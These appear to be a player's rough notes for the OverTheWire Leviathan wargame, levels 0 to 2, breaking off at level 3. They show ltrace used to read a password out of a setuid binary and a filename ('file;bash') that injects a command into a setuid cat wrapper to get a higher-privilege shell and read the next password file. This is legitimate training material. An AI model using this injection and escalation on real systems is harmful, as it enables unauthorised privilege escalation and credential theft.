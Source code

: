 Login:
echo PASSWORD > X

sshpass -p $(cat X) ssh levaithanX@bandit.labs.overthewire.org -p 2223

lvl0

ls
./backup

did cd .backup/
got a bookmarks.html

it's a huge file
did 
grep password bookmarks.html

got thr password for lvl1

lvl1

ls got check setuid file
./check
used ltrace which shows all libaray calls
including the strcpy('entered pass','crt pass')
executed the check with crt password 
got access to leviathan2
now cat /etc/leviathan_pass/leviathan2

got the password for next level

lvl2

we got a setuid file called printfile
did 
./printfile /etc/leviathan_pass/leviathan3
says youu can't have that file 

./printfile /etc/passwd

got a lot of files

did 
ltrace ./printfile /etc/passwd
snprinntf("/bin/cat /etc/passwd" ,511,"/bin/cat %s","/etc/passwd")

got a vulnerabiltiy
made a temp folder
mktemp -d
cd to it 
touch 'file;bash'

this means that whenever we do the cat 
when we do cat file it will cat the file and encounter the ; and escalates to next level

escalated to next level shell(why? printfile was a setuid file so it have the ownership of leviathan 3)
did cat /etc/leviathan_pass/leviathan3

got the password for lvl3

lvl3
